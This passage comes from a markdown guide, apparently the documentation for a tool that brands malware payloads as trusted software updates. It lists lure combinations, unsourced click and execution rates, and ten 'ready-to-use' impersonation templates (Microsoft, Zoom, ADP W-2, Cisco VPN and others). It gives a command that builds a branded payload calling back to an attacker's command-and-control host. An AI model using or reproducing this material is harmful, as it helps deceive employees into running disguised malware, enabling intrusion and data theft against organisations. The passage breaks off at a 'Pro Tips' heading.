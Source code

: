 ### Combo 4: IT Department + Mandatory
```
Tool: Any "IT security tool"
Urgency: "Mandatory for all employees"
Timing: After company-wide IT email
Success Rate: VERY HIGH ✅✅
```

---

## 📊 Real-World Success Rates

**Based on red team assessments:**

| Approach | Click Rate | Download Rate | Execute Rate |
|----------|------------|---------------|--------------|
| Generic "update.exe" | 5% | 2% | 1% |
| Branded software update | 35% | 25% | 18% |
| HR/W-2 tax season | 55% | 45% | 35% |
| Internal company tool | 60% | 50% | 40% |
| IT mandatory update | 65% | 55% | 45% |

**Key Insight:** Branding increases success by **10-40x** ✅

---

## 🎨 Available Templates

You have **10 ready-to-use templates:**

```
1. microsoft  - Windows Security Update
2. zoom       - Zoom Client Update
3. teams      - Microsoft Teams Update
4. slack      - Slack Desktop Update
5. adp        - ADP W-2 Document Viewer (tax season!)
6. docusign   - DocuSign Secure Reader
7. webex      - Cisco Webex Update
8. chrome     - Google Chrome Update
9. office     - Microsoft Office Update
10. vpn-cisco - Cisco AnyConnect VPN
```

**Just run:**
```bash
python3 tools/payload_brander.py --template [NAME] --c2-host YOUR_IP --c2-port 443
```

---

## 💡 Pro Tips
